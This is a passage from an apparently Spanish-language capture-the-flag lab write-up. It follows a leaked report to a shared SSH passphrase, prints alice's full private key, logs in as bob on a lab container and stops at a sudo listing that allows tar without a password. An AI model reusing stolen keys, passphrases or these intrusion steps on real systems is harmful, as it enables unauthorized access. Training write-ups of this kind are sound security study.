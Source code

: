 ```
Este incidente pone de manifiesto la importancia de revisar las configuraciones criticas en sistemas sensibles. Es crucial que todo el equipo de IT se mantenga alerta y que se implementen controles mas estrictos para evitar errores similares en el futuro.

--- FIN DEL INFORME ---
```

Nos esta comentando que la clave privada es la misma para todos los usuarios, solo que tiene como clave un `Passphrase` y que la muestra en texto plano llamado `cyb3r_s3curity`, por lo que podremos hacer lo siguiente con lo que nos comenta ese `report`.

Por lo que nos copiaremos el `id_rsa` del `.ssh/` de la carpeta de `alice` y nos la pasamos a nuestro `host`, quedaria algo asi:

> id\_rsa

```
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAACmFlczI1Ni1jdHIAAAAGYmNyeXB0AAAAGAAAABD/Zl6Oa+
t/Nyrj5mS58b4UAAAAGAAAAAEAAAAzAAAAC3NzaC1lZDI1NTE5AAAAIH0U06i5Cvj9PvIg
dK8un8RIyk8IHB0d+OGgV5pg+VJyAAAAkGgMyLQZ/t4piG3I0P6JnXGOZ7nf5TWPY414hN
AaI6BO3ubesPARxs8RV8OQIF7L0DVJLPU8BDSuqmZgRLjlThdIzHRCCj9vf2lW9tzsZikd
6hfIWn1p+pDUvyyYPuKD9fjvr4NFlHVqHyz171SghCP+ePcbfAM1X5GwlTQwyBjf7Ibjrj
FKXxVgGHbqo+MLyw==
-----END OPENSSH PRIVATE KEY-----
```

Ponemos los permisos necesarios para que esto funcione.

```shell
chmod 600 id_rsa
```

Y nos conectamos con la clave privada por `ssh` con el usuario `bob`:

```shell
ssh -i id_rsa bob@172.17.0.2
```

Info:

```
Enter passphrase for key 'id_rsa':
```

Nos pedira un `passphrase` la cual hemos visto antes, por lo que le pasaremos la palabra `cyb3r_s3curity` y estaremos dentro como el usuario `bob`.

## Escalate Privileges

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for bob on 10e2ba374420:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User bob may run the following commands on 10e2ba374420:
    (ALL) NOPASSWD: /bin/tar
```
